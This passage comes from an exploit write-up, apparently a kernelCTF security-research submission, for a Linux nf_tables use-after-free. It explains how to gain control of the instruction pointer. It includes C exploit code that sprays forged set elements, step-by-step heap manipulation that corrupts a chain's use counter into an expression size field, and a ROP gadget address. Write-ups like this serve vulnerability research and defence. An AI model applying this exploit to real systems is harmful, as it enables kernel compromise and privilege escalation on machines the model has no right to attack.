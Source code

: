   ```c
  static int nf_tables_fill_setelem(struct sk_buff *skb,
				  const struct nft_set *set,
				  const struct nft_set_elem *elem)
  ...
  if (nft_set_ext_exists(ext, NFT_SET_EXT_OBJREF) &&
	    nla_put_string(skb, NFTA_SET_ELEM_OBJREF,
			   (*nft_set_ext_obj(ext))->key.name) < 0)
		goto nla_put_failure;
  ...
  ```


### Control RIP
This part of the exploit is basically the same as CVE-2023-4569. If you want to understand more details, read this [article](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md).

The only difference is that when exploiting CVE-2023-4569, we put the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` at offset 0x30, while in this exploit, we need to put it at offset 0x50 (because we used primitive_1 in Primitive, nft_chain->use offset is 0x50). Similar to the Leak info, I chose to put the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` at offset 0x50 by increasing `NFTA_SET_ELEM_DATA`:
```c
//step 4 create normal set elem with expr, make offsetof(chain->use) == offsetof(expr->size)
    *(uint64_t *)&pad[0] = target_heap;//expr->ops
    *(uint64_t *)&pad[8] = kernel_off + 0xFFFFFFFF8165A0A3;//leave ; ret
    for(i=0;i<0x1000;i++){
    	*(uint64_t *)hash_key_48 = i;
	new_setelem_with_expr_and_elemdata(socket, table, hash_set_for_expr, pad, 0x10, NULL, hash_key_48, 48, NULL, 0);
    }
```
```c
void new_setelem_with_expr_and_elemdata(struct nl_sock * socket,char *table_name, char *set_name, void *elemdata, uint32_t elemdata_len, char *obj_ref, char * input_key, int key_len, char *key_end, int key_end_len){
	...
	if(elemdata > 0){
        nla_put(elem_data, NFTA_DATA_VALUE, elemdata_len, elemdata);
		nla_put_nested(elem_nest, NFTA_SET_ELEM_DATA, elem_data);
    }
	...
```

I control the RIP by the following steps:
- 1. Create a chain for ROP(`chain X`). The size is 0x78 and it uses kmalloc-128.
- 2. Create 0x20 set elements wihch use `chain X` created in step 1. After step2, we will set `chain X->use = 0x20`
- 3. Call `primitive_1` 0x20 times, finally making `chain X->use = 0`
- 4. Delete `chain X`
- 5. Create 0x1000 new set elements. These new elements are carefully constructed so that the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` is exactly at the position of `chain X->use`.
- 6. Delete all the set elements we created in step 2. The `chain->use` will be set to `0xfffffff0` from `0x10`, which means we change the `size` of `NFT_SET_EXT_EXPRESSIONS` of a set element which we created in step 5. We will change the `size` from `0x10` to `0xfffffff0`. Now we get a fake `nft_expr` expr[1]. We can fill the `ops` and the `data` of the fake expr in `NFTA_SET_ELEM_DATA`. 
- 7. Dump all the set elements we create in step 5. Finally we will jmp to our ROP gadget.
  ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

  ```